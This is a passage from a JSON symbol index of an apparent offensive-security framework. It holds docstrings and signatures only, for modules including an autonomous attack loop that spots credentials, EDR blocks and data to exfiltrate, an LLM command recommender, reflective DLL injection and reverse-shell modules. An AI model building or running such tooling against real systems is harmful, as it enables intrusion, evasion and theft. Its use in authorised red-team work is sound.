dictionary.\n\nImports are performed lazily so the reactive engine still loads in\nenvironments where ``core.config`` is not yet wired (early\nbootstrap, isolated unit tests). Any failure falls back to an empty\ndictionary, which behaves as \"feature enabled by default\" for\n:class:`SemanticContextAdvisor`.", "kind": "function", "line": 42, "name": "_default_config_loader", "signature": "def _default_config_loader()"}, {"doc": "A detected indicator in command output.", "kind": "class", "line": 69, "name": "Signal", "signature": "class Signal"}, {"doc": "What the autonomous loop should do next given the signals.", "kind": "class", "line": 80, "name": "ReactiveDecision", "signature": "class ReactiveDecision"}, {"kind": "class", "line": 97, "name": "AbstractSignalMatcher", "signature": "class AbstractSignalMatcher(ABC)"}, {"doc": "Detects AV/EDR blocking patterns in tool output.", "kind": "class", "line": 102, "name": "AVBlockedMatcher", "signature": "class AVBlockedMatcher(AbstractSignalMatcher)"}, {"doc": "Detects credentials in command output.", "kind": "class", "line": 147, "name": "CredentialFoundMatcher", "signature": "class CredentialFoundMatcher(AbstractSignalMatcher)"}, {"doc": "Detects indicators that privesc may be possible.", "kind": "class", "line": 174, "name": "PrivescHintMatcher", "signature": "class PrivescHintMatcher(AbstractSignalMatcher)"}, {"doc": "Detects new IP addresses in command output.", "kind": "class", "line": 209, "name": "NewHostMatcher", "signature": "class NewHostMatcher(AbstractSignalMatcher)"}, {"doc": "Extracts service version strings for exploit matching.", "kind": "class", "line": 232, "name": "ServiceVersionMatcher", "signature": "class ServiceVersionMatcher(AbstractSignalMatcher)"}, {"doc": "Detects tool errors that warrant switching techniques.", "kind": "class", "line": 262, "name": "ShellErrorMatcher", "signature": "class ShellErrorMatcher(AbstractSignalMatcher)"}, {"doc": "Detects opportunities for lateral movement in command output.", "kind": "class", "line": 293, "name": "LateralOpportunityMatcher", "signature": "class LateralOpportunityMatcher(AbstractSignalMatcher)"}, {"doc": "Detects data of interest for exfiltration in command output.", "kind": "class", "line": 323, "name": "DataOfInterestMatcher", "signature": "class DataOfInterestMatcher(AbstractSignalMatcher)"}, {"doc": "Queries parquet DBs for binary-based privesc and LOLBas opportunities.\nGracefully returns [] when pandas or parquet files are unavailable.", "kind": "class", "line": 389, "name": "ParquetAdvisor", "signature": "class ParquetAdvisor"}, {"doc": "Maps detected AV/EDR signals to concrete LazyOwn evasion commands.\nUses lazyaddons YAML (adversary_yaml) for Windows; native commands for Linux.", "kind": "class", "line": 481, "name": "EvasionAdvisor", "signature": "class EvasionAdvisor"}, {"doc": "Suggests privilege escalation commands based on:\n- detected privesc hints in output\n- platform (linux vs windows)\n- GTFOBins / LOLBas parquet lookup\n- lazyaddons YAML (adversary_yaml)", "kind": "class", "line": 537, "name": "PrivescAdvisor", "signature": "class PrivescAdvisor"}, {"doc": "Suggest follow-up commands by semantic similarity to past sessions.\n\nLast-resort hint that only fires when the regex-based matchers and\nadvisors produce nothing useful. Relies on\n:class:`modules.session_rag.SessionRAG` (ChromaDB when available,\nkeyword fallback otherwise) so it carries no extra runtime\ndependency. When the RAG layer is missing or the operator disabled\nit via ``payload.json[reactive_semantic_enabled]``, the advisor\nsilently returns an empty list — never breaking the regex pipeline.", "kind": "class", "line": 632, "name": "SemanticContextAdvisor", "signature": "class SemanticContextAdvisor"}, {"doc": "Analyses command output and produces prioritised ReactiveDecisions.\nWire into the auto_loop after each step to close the reasoning cycle.", "kind": "class", "line": 804, "name": "ReactiveEngine", "signature": "class ReactiveEngine"}, {"kind": "function", "line": 977, "name": "get_engine", "signature": "def get_engine()"}, {"kind": "method", "line": 99, "name": "match", "signature": "def match(self, output, context)"}, {"kind": "method", "line": 128, "name": "match", "signature": "def match(self, output, context)"}, {"kind": "method", "line": 159, "name": "match", "signature": "def match(self, output, context)"}, {"kind": "method", "line": 192, "name": "match", "signature": "def match(self, output, context)"}, {"kind": "method", "line": 214, "name": "match", "signature": "def match(self, output, context)"}, {"kind": "method", "line": 247, "name": "match", "signature": "def match(self, output, context)"}, {"kind": "method", "line": 276, "name": "match", "signature": "def match(self, output, context)"}, {"kind": "method", "line": 307, "name": "match", "signature": "def match(self, output, context)"}, {"kind": "method", "line": 349, "name": "match", "signature": "def match(self, output, context)"}, {"kind": "method", "line": 395, "name": "__init__", "signature": "def __init__(self, root)"}, {"kind": "method", "line": 402, "name": "_load", "signature": "def _load(self)"}, {"kind": "method", "line": 421, "name": "gtfobins_for", "signature": "def gtfobins_for(self, binary)"}, {"doc": "Returns [(function_name, att&ck_technique), ...].", "kind": "method", "line": 434, "name": "lolbas_for", "signature": "def lolbas_for(self, binary)"}, {"doc": "Return atomic test commands for platform matching keyword.", "kind": "method", "line": 448, "name": "technique_commands_for", "signature": "def technique_commands_for(self, platform, keyword)"}, {"kind": "method", "line": 504, "name": "suggest", "signature": "def suggest(self, signals, platform)"}, {"kind": "method", "line": 565, "name": "suggest", "signature": "def suggest(self, signals, platform, parquet)"}, {"doc": "Initialise the advisor.\n\nArgs:\n    rag: Optional pre-built RAG instance. Injected in tests; in\n        production the singleton from ``modules.session_rag`` is\n        loaded lazily on first :meth:`suggest` call.\n    config_loader: Callable returning a payload dictionary. Used\n        only to gate the advisor via\n        :data:`SEMANTIC_PAYLOAD_KEY`. Falsy return values disable\n        the advisor for that call.\n    min_score: Minimum cosine similarity score to keep a hit.\n    query_limit: Maximum number of RAG hits to request per call.", "kind": "method", "line": 644, "name": "__init__", "signature": "def __init__(self, rag, config_loader, min_score, query_limit)"}, {"doc": "Resolve the RAG singleton on first use.\n\nReturns:\n    The shared :class:`SessionRAG` instance, or ``None`` when the\n    module cannot be imported.", "kind": "method", "line": 671, "name": "_load_rag", "signature": "def _load_rag(self)"}, {"doc": "Return whether the operator has the advisor turned on.\n\nWhen no config loader is wired, the advisor is assumed enabled.\nWhen the loader raises or the key is absent, defaults to\nenabled to preserve the historical \"best-effort hints\" UX.", "kind": "method", "line": 697, "name": "_enabled", "signature": "def _enabled(self)"}, {"doc": "Pull the originating command verb from a ``command_*`` filename.\n\nArgs:\n    source: Relative path returned by the RAG hit, typically\n        ``logs/command_<verb>output<domain>.txt``.\n\nReturns:\n    The extracted verb, or the empty string when the path does\n    not follow the expected pattern.", "kind": "method", "line": 715, "name": "_extract_verb", "signature": "def _extract_verb(source)"}, {"doc": "Return semantic next-step hints derived from past sessions.\n\nArgs:\n    output: Raw stdout+stderr from the executed command.\n    command: The command that produced *output*.\n    platform: Target platform tag (informational; not currently\n        used to filter hits).\n    context: Reserved for future extensions.\n\nReturns:\n    Zero or more :class:`ReactiveDecision` with action\n    ``\"suggest_next\"`` and priority\n    :data:`SEMANTIC_PRIORITY` so regex-based decisions always\n    outrank the semantic hint.", "kind": "method", "line": 734, "name": "suggest", "signature": "def suggest(self, output, command, platform, context)"}, {"kind": "method", "line": 810, "name": "__init__", "signature": "def __init__(self, matchers, evasion, privesc, parquet, semantic)"}, {"doc": "Parse *output* and return prioritised ReactiveDecisions.\n\nParameters\n----------\noutput   : raw stdout+stderr from the executed command\ncommand  : the command that produced the output (for context)\nplatform : \"linux\", \"windows\", or \"unknown\"\ncontext  : dict with optional keys: known_hosts, credentials, phase", "kind": "method", "line": 835, "name": "analyse", "signature": "def analyse(self, output, command, platform, context)"}, {"doc": "Return only the single highest-priority decision, or None.", "kind": "method", "line": 958, "name": "top_decision", "signature": "def top_decision(self, output, command, platform, context)"}]}, {"doc": "LazyOwn Smart Command Recommender =================================== Reads the current session state and asks Groq to rank the best 3-5 next LazyOwn commands, with confidence scores and reasoning.  Output written to: sessions/recommendations/next_actions.json  Public API: recommend(state: dict | None, api_key: str) -> list[dict] Returns ranked recommendations: [{\"command\": \"smbmap\", \"confidence\": 0.95, \"reason\": \"...\", \"args\": \"-H {rhost}\"}]  recommend_and_save(api_key: str) -> list[dict] Builds state, calls Groq, writes JSON, returns list.", "id": "modules/recommender.py", "kind": "module", "label": "recommender.py", "language": "py", "sha256": "1f33b1a7cc74f8b2", "symbol_count": 4, "symbols": [{"kind": "function", "line": 55, "name": "_build_user_prompt", "signature": "def _build_user_prompt(state)"}, {"kind": "function", "line": 97, "name": "_call_ai", "signature": "def _call_ai(api_key, user_prompt)"}, {"doc": "Return ranked recommendations without writing to disk.", "kind": "function", "line": 143, "name": "recommend", "signature": "def recommend(state, api_key)"}, {"doc": "Build state → call Groq → write JSON → return recommendations.", "kind": "function", "line": 163, "name": "recommend_and_save", "signature": "def recommend_and_save(api_key)"}]}, {"doc": "Red Team Gym — gamified pentest training mode.  Integrates with the existing ELO/karma system in :mod:`cli.engagement_hooks` and extends :mod:`cli.commands.lab` Docker scenarios with challenge objectives, scoring, and leaderboards.  Each challenge defines a specific objective, success criteria, a time-based speed score, a stealth score (based on techniques that avoid EDR triggers), and a technique-diversity bonus.  Completion awards bonus ELO that is added via the existing ``aumentar_elo`` / ``_award_elo`` pipeline.", "id": "modules/redteam_gym.py", "kind": "module", "label": "redteam_gym.py", "language": "py", "sha256": "93dd66858d8bcb60", "symbol_count": 18, "symbols": [{"doc": "A single challenge attempt with scoring.", "kind": "class", "line": 282, "name": "GymAttempt", "signature": "class GymAttempt"}, {"doc": "Create the gym data directory.", "kind": "function", "line": 298, "name": "_ensure_gym_dir", "signature": "def _ensure_gym_dir()"}, {"doc": "Load the persistent leaderboard.\n\nReturns:\n    Dict mapping operator name to stats.", "kind": "function", "line": 303, "name": "_load_leaderboard", "signature": "def _load_leaderboard()"}, {"doc": "Persist the leaderboard.\n\nArgs:\n    board: Leaderboard data dict.", "kind": "function", "line": 319, "name": "_save_leaderboard", "signature": "def _save_leaderboard(board)"}, {"doc": "Get the current operator username from the CLI auth session.\n\nReturns:\n    Username string, falling back to 'anonymous'.", "kind": "function", "line": 330, "name": "_get_username", "signature": "def _get_username()"}, {"doc": "Return all defined gym challenges with metadata.\n\nReturns:\n    Dict mapping challenge ID to definition.", "kind": "function", "line": 357, "name": "list_challenges", "signature": "def list_challenges()"}, {"doc": "Begin a gym challenge and track start time.\n\nArgs:\n    challenge_id: ID from GYM_CHALLENGE_DEFINITIONS.\n\nReturns:\n    Dict with challenge info and started status.", "kind": "function", "line": 378, "name": "start_challenge", "signature": "def start_challenge(challenge_id)"}, {"doc": "Submit a completed challenge for scoring.\n\nArgs:\n    techniques_used: List of technique identifiers used.\n    success: Whether the challenge was completed successfully.\n\nReturns:\n    Dict with score breakdown and leaderboard position.", "kind": "function", "line": 448, "name": "submit_challenge", "signature": "def submit_challenge(techniques_used, success)"}, {"doc": "Calculate speed score — faster = higher.\n\nArgs:\n    elapsed_seconds: Time taken in seconds.\n    max_bonus: Maximum possible speed bonus.\n\nReturns:\n    Speed score (0 to max_bonus).", "kind": "function", "line": 533, "name": "_calc_speed_score", "signature": "def _calc_speed_score(elapsed_seconds, max_bonus)"}, {"doc": "Calculate stealth score — fewer noisy techniques = higher.\n\nArgs:\n    techniques: List of technique identifiers used.\n    max_bonus: Maximum bonus points.\n\nReturns:\n    Stealth score (0 to max_bonus).", "kind": "function", "line": 554, "name": "_calc_stealth_score", "signature": "def _calc_stealth_score(techniques, max_bonus)"}, {"doc": "Calculate technique diversity score.\n\nArgs:\n    techniques: List of technique identifiers used.\n    chal: Challenge definition.\n    max_bonus: Maximum diversity bonus.\n\nReturns:\n    Diversity score (0 to max_bonus).", "kind": "function", "line": 570, "name": "_calc_technique_score", "signature": "def _calc_technique_score(techniques, chal, max_bonus)"}, {"doc": "Update the persistent leaderboard with a completed attempt.\n\nArgs:\n    attempt: Completed gym attempt.", "kind": "function", "line": 592, "name": "_update_leaderboard", "signature": "def _update_leaderboard(attempt)"}, {"doc": "Award ELO to the user via the existing engagement hooks system.\n\nArgs:\n    username: Operator username.\n    elo_bonus: ELO delta to award.", "kind": "function", "line": 636, "name": "_award_gym_elo", "signature": "def _award_gym_elo(username, elo_bonus)"}, {"doc": "Get the leaderboard rank for a user.\n\nArgs:\n    username: Operator username.\n\nReturns:\n    1-indexed rank position.", "kind": "function", "line": 662, "name": "_get_rank", "signature": "def _get_rank(username)"}, {"doc": "Return the top N players from the leaderboard.\n\nArgs:\n    top_n: Maximum number of entries to return.\n\nReturns:\n    List of leaderboard entries sorted by total_score descending.", "kind": "function", "line": 679, "name": "show_leaderboard", "signature": "def show_leaderboard(top_n)"}, {"doc": "Return the currently active challenge for this operator, if any.\n\nReturns:\n    Active challenge dict or None.", "kind": "function", "line": 706, "name": "get_active_challenge", "signature": "def get_active_challenge()"}, {"doc": "Record a scored attempt for a challenge not defined in the catalog.\n\nLets external modules (for example the ExploitGym integration) feed the\nshared ELO/leaderboard pipeline without requiring a challenge\ndefinition or an active in-flight challenge.\n\nArgs:\n    challenge_id: Identifier recorded on the leaderboard (e.g.\n        ``exploitgym:<task_id>``).\n    success: Whether the attempt succeeded.\n    elo_bonus: ELO delta to award on success (``0`` on failure).\n    techniques: Technique identifiers used.\n\nReturns:\n    Dict with ``success``, ``challenge``, ``completed``, ``elo_awarded``\n    and ``rank``.", "kind": "function", "line": 736, "name": "record_external_attempt", "signature": "def record_external_attempt(challenge_id, success, elo_bonus, techniques)"}, {"doc": "CLI entry point — show gym leaderboard from command line.", "kind": "function", "line": 790, "name": "main", "signature": "def main()"}]}, {"doc": "Reflective DLL loading — load PE from memory without touching disk.  Implements manual PE parsing, import resolution, relocations, and DllMain invocation. Supports five injection techniques: CreateRemoteThread, NtCreateThreadEx, QueueUserAPC, SetWindowsHookEx, and thread hijacking.  All operations use raw bytes — no LoadLibrary or GetProcAddress for the target DLL. Designed for in-process or cross-process reflection.", "id": "modules/reflective_dll.py", "kind": "module", "label": "reflective_dll.py", "language": "py", "sha256": "6fc919a7d86de14b", "symbol_count": 27, "symbols": [{"doc": "Parsed portable executable header fields.\n\nAttributes:\n    machine: Target CPU architecture.\n    number_of_sections: Count of section headers.\n    size_of_optional_header: Bytes of optional header.\n    characteristics: DLL/EXE flags.\n    entry_point_rva: Relative virtual address of entry.\n    image_base: Preferred load address.\n    section_alignment: Memory section alignment.\n    file_alignment: Disk section alignment.\n    size_of_image: Total image size in memory.\n    size_of_headers: Combined header size.\n    subsystem: GUI/CUI/NATIVE subsystem.\n    dll_characteristics: ASLR, DEP, etc.", "kind": "class", "line": 37, "name": "PEHeader", "signature": "class PEHeader"}, {"doc": "PE data directory entry.\n\nAttributes:\n    virtual_address: RVA of the directory data.\n    size: Size of the directory data in bytes.", "kind": "class", "line": 70, "name": "DataDirectory", "signature": "class DataDirectory"}, {"doc": "Parsed PE section header.\n\nAttributes:\n    name: Section name (max 8 chars).\n    virtual_address: RVA of section in memory.\n    virtual_size: Size of section in memory.\n    raw_data_offset: File offset of section data.\n    raw_data_size: Size of raw section data.\n    characteristics: Section flags (executable, writable, readable).", "kind": "class", "line": 83, "name": "SectionHeader", "signature": "class SectionHeader"}, {"doc": "Parsed import directory entry.\n\nAttributes:\n    dll_name: Name of the imported DLL.\n    function_names: List of imported function names or ordinals.\n    original_first_thunk_rva: RVA of the import lookup table.\n    first_thunk_rva: RVA of the import address table.", "kind": "class", "line": 104, "name": "ImportDescriptor", "signature": "class ImportDescriptor"}, {"doc": "Configuration for reflective DLL loading.\n\nAttributes:\n    target_process_id: PID to inject into (0 for self-injection).\n    injection_technique: createremotethread, ntcreatethreadex, queueuserapc,\n        setwindowshookex, threadhijack.\n    injection_entry: Export name / ordinal to call after loading.\n    injection_args: Argument bytes to pass to the entry point.\n    erase_headers: Zero out PE headers post-load for stealth.\n    unhook_ntdll: Restore clean ntdll.dll from disk before loading.", "kind": "class", "line": 121, "name": "ReflectiveLoaderConfig", "signature": "class ReflectiveLoaderConfig"}, {"doc": "Parse a portable executable from raw bytes for manual loading.\n\nExtracts DOS header, NT headers, section table, import table,\nexport table, and base relocations without using LoadLibrary.", "kind": "class", "line": 142, "name": "PEParser", "signature": "class PEParser"}, {"doc": "Plan reflective DLL load strategy and generate shellcode wrappers.\n\nProduces Python instructions, C stubs, or PowerShell scripts that\nimplement reflective loading for operator use. Does not perform the\nactual load (that requires native execution on target).\n\nAttributes:\n    parser: PEParser instance with parsed PE data.\n    file_header: Extracted PEHeader.\n    sections: List of SectionHeader.\n    data_dirs: List of DataDirectory (16 entries).\n    imports: Parsed import descriptors.\n    relocations: Parsed base relocations.\n    exports: Parsed export table.", "kind": "class", "line": 464, "name": "ReflectiveLoader", "signature": "class ReflectiveLoader"}, {"kind": "method", "line": 151, "name": "__init__", "signature": "def __init__(self, pe_data)"}, {"doc": "Extract the COFF file header.\n\nReturns:\n    PEHeader with machine, sections, and characteristics.", "kind": "method", "line": 166, "name": "parse_file_header", "signature": "def parse_file_header(self)"}, {"doc": "Parse all section headers from the PE.\n\nArgs:\n    num_sections: Number of sections from the file header.\n\nReturns:\n    List of SectionHeader objects.", "kind": "method", "line": 208, "name": "parse_sections", "signature": "def parse_sections(self, num_sections)"}, {"doc": "Parse the PE data directory entries.\n\nArgs:\n    num_entries: Number of directory entries (default 16).\n\nReturns:\n    List of DataDirectory objects.", "kind": "method", "line": 243, "name": "parse_data_directories", "signature": "def parse_data_directories(self, num_entries)"}, {"doc": "Convert a relative virtual address to a file offset.\n\nArgs:\n    rva: Relative virtual address.\n    sections: Parsed section table.\n\nReturns:\n    File offset or -1 if the RVA doesn't map.", "kind": "method", "line": 265, "name": "rva_to_offset", "signature": "def rva_to_offset(self, rva, sections)"}, {"doc": "Parse the import directory to enumerate imported DLLs and functions.\n\nArgs:\n    import_dir: IMAGE_DIRECTORY_ENTRY_IMPORT data directory.\n    sections: Parsed section table.\n\nReturns:\n    List of ImportDescriptor objects.", "kind": "method", "line": 280, "name": "parse_imports", "signature": "def parse_imports(self, import_dir, sections)"}, {"doc": "Parse base relocation entries.\n\nArgs:\n    reloc_dir: IMAGE_DIRECTORY_ENTRY_BASERELOC data directory.\n    sections: Parsed section table.\n\nReturns:\n    List of (offset, type) tuples for relocation fixups.", "kind": "method", "line": 326, "name": "parse_relocations", "signature": "def parse_relocations(self, reloc_dir, sections)"}, {"doc": "Parse the export directory.\n\nArgs:\n    export_dir: IMAGE_DIRECTORY_ENTRY_EXPORT data directory.\n    sections: Parsed section table.\n\nReturns:\n    Dict mapping export name to RVA.", "kind": "method", "line": 374, "name": "parse_exports", "signature": "def parse_exports(self, export_dir, sections)"}, {"kind": "method", "line": 417, "name": "_read_asciiz_at_rva", "signature": "def _read_asciiz_at_rva(self, rva, sections)"}, {"kind": "method", "line": 426, "name": "_parse_thunk_names", "signature": "def _parse_thunk_names(self, thunk_rva, sections)"}, {"kind": "method", "line": 456, "name": "is_64bit", "signature": "def is_64bit(self)"}, {"kind": "method", "line": 460, "name": "raw_data", "signature": "def raw_data(self)"}, {"kind": "method", "line": 492, "name": "__init__", "signature": "def __init__(self, pe_data, config)"}, {"doc": "SHA-256 hash of the raw PE bytes.", "kind": "method", "line": 505, "name": "sha256", "signature": "def sha256(self)"}, {"doc": "CPU architecture string ('x64' or 'x86').", "kind": "method", "line": 510, "name": "architecture", "signature": "def architecture(self)"}, {"doc": "DLL names needed for import resolution.", "kind": "method", "line": 515, "name": "required_imports", "signature": "def required_imports(self)"}, {"doc": "Generate an injection plan based on the configured technique.\n\nReturns:\n    Dict with technique, process_id, entry_point, and required steps.", "kind": "method", "line": 526, "name": "plan_injection", "signature": "def plan_injection(self)"}, {"doc": "Generate a C stub that implements reflective loading.\n\nReturns:\n    C source code string with reflective loader logic.", "kind": "method", "line": 588, "name": "generate_c_stub", "signature": "def generate_c_stub(self)"}, {"doc": "Generate PowerShell reflective loader script.\n\nReturns:\n    PowerShell script for .NET Assembly.Load reflectively.", "kind": "method", "line": 666, "name": "generate_powershell_stub", "signature": "def generate_powershell_stub(self)"}, {"doc": "Human-readable summary of the parsed PE for operator review.\n\nReturns:\n    Dict with architecture, imports, sections, exports, and hashes.", "kind": "method", "line": 685, "name": "summarize", "signature": "def summarize(self)"}]}, {"doc": "Enhanced resource script engine — variables, conditionals, loops, macros.  Extends LazyOwn's existing ``.ls`` script format with:  - ``set <var> <value>`` — set a local variable - ``setg <var> <value>`` — set a global variable (persists in shell params) - ``unset <var>`` — remove a variable - ``if <condition>`` / ``else`` / ``endif`` — conditional execution - ``while <condition>`` / ``endwhile`` — loop until condition is false - ``for <var> in <items>`` / ``endfor`` — iterate over space-separated items - ``break`` / ``continue`` — loop control inside while/for bodies - ``macro <name> <args>`` / ``endmacro`` / ``call <name> <args>`` — reusable blocks - ``spool <file>`` / ``spool off`` — log output to file - ``sleep <seconds>`` — pause execution - ``echo <message>`` — print a message - ``comment <text>`` — inline comment (also ``#`` lines) - Variable substitution: ``$var`` or ``${var}`` anywhere in command lines  Conditions (``if`` / ``while``) support real expressions:  - ``$a == $b`` / ``$a != $b`` — string equality after substitution - ``$a =~ pattern`` / ``$a !~ pattern`` — regex search / negated - ``$a > $b`` and friends (``>=``, ``<``, ``<=``) — numeric when both operands parse as numbers, string order otherwise - ``$a contains text`` — substring test - ``defined $var`` — true when the variable exists and is non-empty - anything else falls back to truthiness: empty, ``false``, ``0``, ``no`` and ``off`` are false; every other value is true  Built-in variables: ``$rhost``, ``$lhost``, ``$lport``, ``$domain``,", "id": "modules/resource_script.py", "kind": "module", "label": "resource_script.py", "language": "py", "sha256": "430937a04fc0fb33", "symbol_count": 21, "symbols": [{"doc": "Raised when a resource script encounters a fatal error.", "kind": "class", "line": 76, "name": "ScriptError", "signature": "class ScriptError(RuntimeError)"}, {"doc": "Runtime context for a single resource script execution.\n\nTracks local/global variables, macro definitions, nesting state,\nand the spool file.", "kind": "class", "line": 82, "name": "ScriptContext", "signature": "class ScriptContext"}, {"doc": "Parses and executes enhanced resource scripts.\n\nArgs:\n    context: A :class:`ScriptContext` providing variable scope and\n        command execution callbacks.", "kind": "class", "line": 268, "name": "ResourceScriptEngine", "signature": "class ResourceScriptEngine"}, {"kind": "method", "line": 89, "name": "__init__", "signature": "def __init__(self, shell_params, on_command, on_print)"}, {"kind": "method", "line": 124, "name": "_resolve", "signature": "def _resolve(self, text)"}, {"kind": "method", "line": 138, "name": "print", "signature": "def print(self, msg)"}, {"kind": "method", "line": 147, "name": "run_command", "signature": "def run_command(self, cmd)"}, {"kind": "method", "line": 165, "name": "_skip", "signature": "def _skip(self)"}, {"doc": "Return the raw (unresolved) value of ``name`` or ``None``.", "kind": "method", "line": 168, "name": "_lookup", "signature": "def _lookup(self, name)"}, {"doc": "Resolve one condition operand, treating unresolved vars as empty.", "kind": "method", "line": 183, "name": "_resolve_operand", "signature": "def _resolve_operand(self, operand)"}, {"doc": "Evaluate an ``if``/``while`` condition expression.\n\nSupports ``==``, ``!=``, ``=~``, ``!~``, ``>``, ``>=``, ``<``,\n``<=``, ``contains`` and ``defined``; anything else falls back to\nplain truthiness of the substituted text. Substitution happens per\noperand so ``if $a == $b`` compares values instead of evaluating\nthe literal string ``\"x == y\"`` (which is always truthy).", "kind": "method", "line": 191, "name": "eval_condition", "signature": "def eval_condition(self, raw_condition)"}, {"doc": "Apply one comparison operator to two resolved operands.", "kind": "method", "line": 220, "name": "_compare", "signature": "def _compare(left, op, right)"}, {"doc": "Move ``_pos`` past the matching close token, honouring nesting.", "kind": "method", "line": 251, "name": "_jump_past", "signature": "def _jump_past(self, open_res, close_re)"}, {"kind": "method", "line": 276, "name": "__init__", "signature": "def __init__(self, context)"}, {"doc": "Load and run a script file.\n\nArgs:\n    script_path: Path to the ``.ls`` or resource script file.\n\nRaises:\n    ScriptError: On parse/execution errors.\n    FileNotFoundError: When the script does not exist.", "kind": "method", "line": 279, "name": "execute", "signature": "def execute(self, script_path)"}, {"doc": "Execute a list of script lines.\n\nArgs:\n    lines: Script lines (may include trailing newlines).\n    source: Source name for error messages.\n\nRaises:\n    ScriptError: On parse/execution errors.", "kind": "method", "line": 293, "name": "execute_lines", "signature": "def execute_lines(self, lines, source)"}, {"doc": "Execute a script string (split on newlines).", "kind": "method", "line": 327, "name": "execute_string", "signature": "def execute_string(self, script)"}, {"kind": "method", "line": 331, "name": "_extract_macros", "signature": "def _extract_macros(self, lines)"}, {"kind": "method", "line": 347, "name": "_execute_line", "signature": "def _execute_line(self, raw)"}, {"kind": "method", "line": 537, "name": "_call_macro", "signature": "def _call_macro(self, name, args)"}, {"kind": "function", "line": 125, "name": "_repl", "signature": "def _repl(m)"}]}, {"id": "modules/reverse-shell.c", "kind": "module", "label": "reverse-shell.c", "language": "c", "sha256": "c37f22d8872d0f50", "symbol_count": 2, "symbols": [{"doc": "call_usermodehelper function is used to create user mode processes from kernel space", "kind": "function", "line": 12, "name": "reverse_shell_init", "signature": "static int __init reverse_shell_init(void)"}, {"kind": "function", "line": 16, "name": "reverse_shell_exit", "signature": "static void __exit reverse_shell_exit(void)"}]}, {"id": "modules/revshell.c", "kind": "module", "label": "revshell.c", "language": "c", "sha256": "599a00428e34ed10", "symbol_count": 2, "symbols": [{"kind": "function", "line": 5, "name": "xlAutoOpen", "signature": "void __cdecl xlAutoOpen()"}, {"kind": "function", "line": 10, "name": "DllMain", "signature": "BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)"}]}, {"doc": "Rich-based live TUI dashboard for LazyOwn campaign monitoring.  Provides an htop-style real-time dashboard that consumes data from modules.dashboard_engine.DashboardEngine and renders a terminal UI using the Python rich library.", "id": "modules/rich_tui.py", "kind": "module", "label": "rich_tui.py", "language": "py", "sha256": "76516897ce40f13f", "symbol_count": 14, "symbols": [{"doc": "Rich-based live TUI dashboard for LazyOwn campaign monitoring.\n\nAttributes:\n    live: When True, operates in non-blocking mode and returns snapshot\n          data without running the interactive refresh loop.", "kind": "class", "line": 66, "name": "RichDashboard", "signature": "class RichDashboard"}, {"doc": "Initialize the Rich dashboard.\n\nArgs:\n    dashboard_engine: DashboardEngine instance for data sourcing.\n    refresh_interval: Seconds between refreshes in blocking mode.\n    live: Non-blocking mode when True. run() returns snapshot data\n          without entering the interactive loop.", "kind": "method", "line": 74, "name": "__init__", "signature": "def __init__(self, dashboard_engine, refresh_interval, live)"}, {"doc": "Run the dashboard.\n\nReturns:\n    If live=True, returns the built snapshot dict.\n    Otherwise blocks until user quits (q key) and returns None.", "kind": "method", "line": 96, "name": "run", "signature": "def run(self)"}, {"doc": "Gracefully shut down the dashboard and restore terminal state.", "kind": "method", "line": 132, "name": "stop", "signature": "def stop(self)"}, {"doc": "Build a fresh snapshot and return the full frame layout.\n\nReturns:\n    Rich Layout object for the complete dashboard frame.", "kind": "method", "line": 137, "name": "_render", "signature": "def _render(self)"}, {"doc": "Thread target that listens for keyboard input in raw terminal mode.", "kind": "method", "line": 146, "name": "_keyboard_listener", "signature": "def _keyboard_listener(self)"}, {"doc": "Build a full dashboard Layout from a snapshot dict.\n\nArgs:\n    snapshot: Dashboard snapshot from DashboardEngine.build_snapshot().\n\nReturns:\n    Rich Layout ready for rendering.", "kind": "method", "line": 168, "name": "_render_layout", "signature": "def _render_layout(self, snapshot)"}, {"doc": "Render the dashboard header bar with campaign statistics.\n\nArgs:\n    snapshot: Dashboard snapshot.\n\nReturns:\n    Panel containing the header statistics bar.", "kind": "method", "line": 193, "name": "_render_header", "signature": "def _render_header(self, snapshot)"}, {"doc": "Render the network topology tree panel.\n\nArgs:\n    snapshot: Dashboard snapshot.\n\nReturns:\n    Panel with the network topology tree view.", "kind": "method", "line": 221, "name": "_render_topology", "signature": "def _render_topology(self, snapshot)"}, {"doc": "Render exploit recommendations panel sorted by severity.\n\nArgs:\n    snapshot: Dashboard snapshot.\n\nReturns:\n    Panel with a sorted table of exploit recommendations.", "kind": "method", "line": 261, "name": "_render_recommendations", "signature": "def _render_recommendations(self, snapshot)"}, {"doc": "Render bottom panel with active pivots and beacons side by side.\n\nArgs:\n    snapshot: Dashboard snapshot.\n\nReturns:\n    Layout with pivot routes and beacon profiles.", "kind": "method", "line": 321, "name": "_render_pivots_beacons", "signature": "def _render_pivots_beacons(self, snapshot)"}, {"doc": "Render active pivot routes panel.\n\nArgs:\n    snapshot: Dashboard snapshot.\n\nReturns:\n    Panel with pivot entries.", "kind": "method", "line": 337, "name": "_render_pivots", "signature": "def _render_pivots(self, snapshot)"}, {"doc": "Render active beacon profiles panel.\n\nArgs:\n    snapshot: Dashboard snapshot.\n\nReturns:\n    Panel with beacon entries.", "kind": "method", "line": 372, "name": "_render_beacons", "signature": "def _render_beacons(self, snapshot)"}, {"doc": "Render the keyboard shortcuts footer.\n\nReturns:\n    Panel with keyboard shortcut hints.", "kind": "method", "line": 413, "name": "_render_shortcuts", "signature": "def _render_shortcuts(self)"}]}, {"doc": "modules/rl_trainer.py ====================== Reinforcement Learning trainer for expert routing in LazyOwn's MoE system.  Implements tabular Q-learning to improve which expert model is selected for each (task_type, engagement_phase) state.  Over time, the policy learns to route high-risk tasks to reasoning models and quick tasks to fast models.  Theory ------ MDP formulation: State  S  =  (task_type, engagement_phase, recent_success_bucket) Action A  =  expert_id (which model to invoke) Reward R  =  policy_reward - detection_penalty Transition: S → S' after the expert completes the task  Q-learning update (off-policy, model-free): Q(s, a)  ←  Q(s, a)  +  α  *  [ r  +  γ * max_a' Q(s', a')  -  Q(s, a) ]  Exploration strategy: ε-greedy with decay ε_t = ε_0 * decay^t   (minimum ε_min = 0.05)  Design principles ----------------- - Single Responsibility : RL update logic only; no model invocation - Open/Closed           : state encoding extended via StateEncoder - Dependency Inversion  : RLTrainer depends on IStateEncoder interface - Thread-safe           : RLock guards all Q-value mutations", "id": "modules/rl_trainer.py", "kind": "module", "label": "rl_trainer.py", "language": "py", "sha256": "9dbec5090c595143", "symbol_count": 31, "symbols": [{"doc": "All tunable RL hyperparameters in one place.", "kind": "class", "line": 84, "name": "RLConfig", "signature": "class RLConfig"}, {"doc": "Contract for encoding environment state into a hashable string key.", "kind": "class", "line": 101, "name": "IStateEncoder", "signature": "class IStateEncoder(ABC)"}, 